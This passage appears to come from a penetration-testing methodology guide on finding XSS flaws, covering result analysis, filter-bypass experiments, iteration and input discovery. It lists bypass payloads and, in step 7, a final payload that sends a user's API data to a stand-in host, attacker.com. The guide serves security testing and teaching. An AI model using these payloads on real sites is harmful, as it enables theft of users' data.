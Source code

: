 ### 5. Sit back & review your results, do some research on similar situations

- **For XSS context**: Analyze patterns in successful/failed tests
- Research filter bypass techniques for identified protections
- Review known vulnerabilities in the technology stack
- Check XSS cheat sheets for similar contexts
- Example analysis:
    - "The application allows `<img>` tags but blocks `onerror` attributes"
    - "Uppercase tags bypass filtering but lowercase are blocked"
    - "The framework sanitizes HTML but JavaScript context is vulnerable"
    - "Similar bypass was documented in CVE-2022-XXXXX for this framework"

### 6. Test those assumptions, do not limit yourself to what is described somewhere!

- **For XSS context**: Try creative bypass techniques
- Combine multiple techniques that individually failed
- Test browser-specific quirks
- Try unconventional tags or attributes
- Create custom encoding chains
- Example advanced tests:
    - Combine case variation with encoding: `<ImG sRc=x OnErRoR=alert(1)>`
    - Try non-standard event handlers: `<div onpointerrawupdate=alert(1)>`
    - Test HTML5 elements: `<svg><animate onbegin=alert(1) attributeName=x>`
    - Use JavaScript template literals: `` onerror=alert`1` ``

### 7. If you see any difference in requests, try to understand why & start over from step 3

- **For XSS context**: Analyze successful vs. blocked payloads
- Identify specific patterns that bypass protection
- Refine your approach based on what works
- Create more targeted payloads for confirmed bypasses
- Repeat the cycle with new assumptions
- Example iteration:
    - Observation: `onmouseover` works but `onerror` is blocked
    - New assumption: The filter has a blacklist of event handlers
    - New test: Try all possible event handlers systematically
    - Result: `onpointerenter` also works, confirming blacklist approach
    - Final payload: `<img src=x onpointerenter=fetch('/api/user').then(r=>r.json()).then(d=>fetch('https://attacker.com/steal?data='+btoa(JSON.stringify(d))))>`

## Practical XSS Testing Workflow

### 1. Discovery Phase

- Map all user input points
    - URL parameters
    - Form fields
    - HTTP headers
    - File uploads
    - JSON/XML data
- Use tracking parameters to identify reflections
    - `xss-tracker` as a unique identifier
    - Filter proxy traffic for this keyword
- Document all reflection points with context
